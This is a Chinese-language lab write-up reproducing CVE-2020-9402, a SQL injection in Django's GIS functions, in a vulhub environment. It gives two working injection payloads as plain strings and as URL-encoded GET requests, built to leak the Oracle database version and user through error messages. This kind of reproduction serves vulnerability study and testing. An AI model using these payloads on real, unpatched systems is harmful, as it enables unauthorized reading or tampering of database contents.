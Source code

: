 ### Django-GIS-SQL注入漏洞复现

## 漏洞详情

Django是Django基金会的一套基于Python语言的开源Web应用框架。该框架包括面向对象的映射器、视图系统、模板系统等。  Django  1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

## 漏洞环境

[环境搭建](https://github.com/vulhub/vulhub/blob/master/django/CVE-2020-9402)，环境启动后，访问http://your-ip:8000即可看到Django默认首页。

## 漏洞复现

payload1：
 访问http://your-ip:8000/vuln/，在该网页中使用get方法构造q的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

payload2：
 访问http://your-ip:8000/vuln2/。 在该网页中使用get方法构造q的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```bash
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
1
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
1
```

可见，括号已注入成功，SQL语句查询报错：







